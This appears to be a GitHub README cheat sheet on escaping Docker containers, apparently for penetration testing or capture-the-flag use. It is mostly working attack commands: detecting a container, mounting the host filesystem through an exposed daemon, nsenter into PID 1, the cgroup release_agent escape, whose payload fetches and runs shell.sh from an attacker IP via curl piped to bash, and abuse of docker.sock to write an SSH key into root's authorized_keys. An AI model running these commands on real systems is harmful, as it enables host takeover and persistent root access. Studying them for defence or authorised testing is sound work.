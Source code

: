 # Docker-Escape

Docker is an open-source containerization platform used for developing, deploying, and managing applications in lightweight virtualized environments called containers.

![OnPaste 20220611-182248](https://user-images.githubusercontent.com/106917304/173188805-30523d98-d755-4b94-8740-7a929aa28d6b.png)


# Exploitation

### Determining if we're in a container

1. Listing running processes
```markdown
ps aux
```
If there are few no. of process is running then you might be in docker.

2. Looking for .dockerenv
```markdown
cd / && ls -lah
```
If you see .dockerenv in base dir, then you're in a container.

3. Those pesky cgroups

Navigating to "/proc/1" and then catting  the "cgroups" file (cat cgroup).

4. Use following code to Verify you are in Docker
```markdown
if [ -f /.dockerenv ]; then
    echo "I'm inside matrix ;(";
else
    echo "I'm living in real world!";
fi
```


## Docker Escaping Techniques

### 1. Escape via Exposed Docker Daemon
Run the following cmd

If we're in bash
```markdown
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

If we're in alpine
```markdown
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

You can see the images repo
```markdown
docker images
docker run -it -v /:/host/ ubuntu:18.04 chroot /host/ bash
```
NOTE: ubuntu:18.04 is the image repo

### 2. Shared Namespaces
By using ps aux you can view the process with processID see pid 1 is running root it is the first one that executed when the system is booted.

Exploiting it with nsenter
```markdown
nsenter --target 1 --mount sh
```

### 3. Escape By Mounting File System
```markdown
lsblk
mount /dev/sda2 /mnt
cd /mnt/root
```
NOTE: In this case sda2 is the dir we mount.

### 4. Misconfigured Privileges
list out all the capabilities
```markdown
capsh --print
capsh --print | grep sys_admin
```
If we get sys_admin capability, means the system is vuln.

On attacker VM.

First make a shell.sh and set python server and set listner.

On target machine.

```markdown
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo $t/c >$d/release_agent;printf '#!/bin/sh\ncurl 10.10.x.x:80/shell.sh | bash' >/c;
chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";
```

### 5. Exploitation of docker.sock in /var/run or /run if you're ROOT

Check /var/run dir for docker.sock file, if it's there and you're root then you can exploit it. First see that you can use curl cmd, if not then wget static curl from your system for static curl see the arch of target machine and get the static curl from [Resource](https://github.com/moparisthebest/static-curl)


STEP1: Listing the images of the container of the host
```markdown
./curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
```

STEP2: Now generate id_rsa in your machine
```markdown
ssh-keygen -t rsa
cat key.pub
```

STEP3: Creating a new docker container with image ID
```markdown
./curl -X POST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock http://localhost/containers/create -d '{"Detach":true,"AttachStdin":false,"AttachStdout":true,"AttachStderr":true,"Tty":false,"Image":"c3:latest","HostConfig":{"Binds": ["/:/var/tmp"]},"Cmd":["sh", "-c", "echo ssh-rsa AAAA..............xfoS+Yb2cW4y9cKcBWpVIiNMEtMX7sIB/0cKl8W/mY4u1UeRzWOoIIew6hqlaWCW6WKeSiCrNzEEj.........................P0/BMcKBS2pzqct2rTQ/LfFFM= root@kali >> /var/tmp/root/.ssh/authorized_keys"]}'
```

NOTE: replace "c3:latest" with the docker image name that you'll get from step1. eg: "RepoTags":["c3:latest"]

Now you'll see you created a docker and get the id. eg: {"Id":"c19a25c6cc7245030bf9741d300f632cc7f1e5f12adad238edce23d387ba00c2","Warnings":[]}


STEP4: Now we gonna use the id and start the docker
```markdown
./curl -X POST -H "Content-Type:application/json" --unix-socket /var/run/docker.sock http://localhost/containers/c19a25c6cc7245030bf9741d300f632cc7f1e5f12adad238edce23d387ba00c2/start
```


STEP5: Login SSH via your private key as user root and now you're root
```markdown
ssh -i key root@10.10.x.x
```

